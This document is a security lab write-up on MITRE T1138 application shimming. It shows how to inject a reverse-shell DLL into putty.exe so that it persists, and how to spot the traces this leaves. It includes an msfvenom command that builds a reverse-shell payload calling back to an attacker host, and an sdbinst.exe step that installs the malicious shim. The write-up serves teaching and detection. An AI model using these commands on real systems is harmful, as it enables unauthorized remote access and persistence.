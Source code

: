```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1138: Application Shimming

## Execution

In this lab, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored in a 32-bit DLL:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../.gitbook/assets/shim-new-fix.png)

![](../.gitbook/assets/shim-injectdll.png)

![](../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will still have to be written to the disk and the registry will have to be modified:

![](../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../.gitbook/assets/shim-connection.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1138" %}

{% embed url="https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/" %}

